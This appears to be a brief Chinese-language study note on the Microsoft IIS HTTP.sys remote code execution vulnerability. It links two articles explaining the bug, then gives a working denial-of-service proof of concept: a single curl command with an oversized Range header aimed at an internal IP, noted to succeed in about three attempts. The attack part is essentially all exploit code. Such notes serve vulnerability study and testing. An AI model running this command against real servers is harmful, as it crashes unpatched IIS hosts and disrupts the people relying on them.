

## 原理

[微软 IIS HTTP.sys漏洞原理学习以及POC](http://t.zoukankan.com/KevinGeorge-p-8074694.html)

[深入解读：Windows HTTP.sys远程代码执行漏洞跟踪进展](https://www.ijiandao.com/safe/cto/12821.html)

## dos poc

	curl http://10.10.40.54/welcome.png -H "Host: test" -H "Range: bytes=12345-18446744073709551615"

平均执行3次左右成功。

